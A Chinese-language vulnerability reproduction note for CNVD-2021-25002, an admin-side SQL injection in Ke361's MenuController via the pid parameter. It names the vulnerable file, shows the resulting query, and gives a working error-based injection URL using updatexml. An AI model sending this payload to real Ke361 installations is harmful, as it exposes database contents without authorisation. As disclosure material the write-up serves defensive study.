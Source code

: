 # Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![image-20220518153611158](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181536242.png)

Get 传参 pid 传入SQL语句

```
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153624882](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181536951.png)